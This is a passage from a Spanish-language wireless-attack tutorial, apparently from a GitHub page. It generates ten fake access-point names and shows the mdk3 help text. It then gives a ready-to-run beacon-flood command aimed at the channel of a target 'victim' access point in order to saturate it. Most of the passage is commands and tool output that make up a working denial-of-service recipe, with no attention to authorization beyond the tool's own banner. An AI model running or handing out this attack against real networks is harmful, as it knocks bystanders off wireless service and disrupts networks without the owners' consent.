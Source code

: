 Vamos a generar los nombres de los **AP** que vamos a generar

```bash
❯ for i in $(seq 1 10); do echo "WifiFree$i" >> names.txt; done
❯ catn names.txt
WifiFree1
WifiFree2
WifiFree3
WifiFree4
WifiFree5
WifiFree6
WifiFree7
WifiFree8
WifiFree9
WifiFree10
```

Ahora con la herramienta `mdk3` vamos a hacer el siguiente ataque 

```bash
❯ mdk3 --help

MDK 3.0 v6 - "Yeah, well, whatever"
by ASPj of k2wrlz, using the osdep library from aircrack-ng
And with lots of help from the great aircrack-ng community:
Antragon, moongray, Ace, Zero_Chaos, Hirte, thefkboss, ducttape,
telek0miker, Le_Vert, sorbo, Andy Green, bahathir and Dawid Gajownik
THANK YOU!

MDK is a proof-of-concept tool to exploit common IEEE 802.11 protocol weaknesses.
IMPORTANT: It is your responsibility to make sure you have permission from the
network owner before running MDK against it.

This code is licenced under the GPLv2

MDK USAGE:
mdk3 <interface> <test_mode> [test_options]

Try mdk3 --fullhelp for all test options
Try mdk3 --help <test_mode> for info about one test only

TEST MODES:
b   - Beacon Flood Mode
      Sends beacon frames to show fake APs at clients.
      This can sometimes crash network scanners and even drivers!
```

Ahora simplemente le pasamos el nombre del fichero donde estan los nombres de los **AP** y el canal donde se situa el **AP** que queremos atacar y comenzamos el ataque

```bash
❯ mdk3 wlan0mon b -f names.txt -a -s 1000 -c 2
```

Ahora podemos ver como se crearon varios **AP** que fueron los que indicamos en el **names.txt** que están en el mismo canal estos se irán incrementando y va a saturar el **AP** victima ya que hay demasiados **AP** en el mismo canal
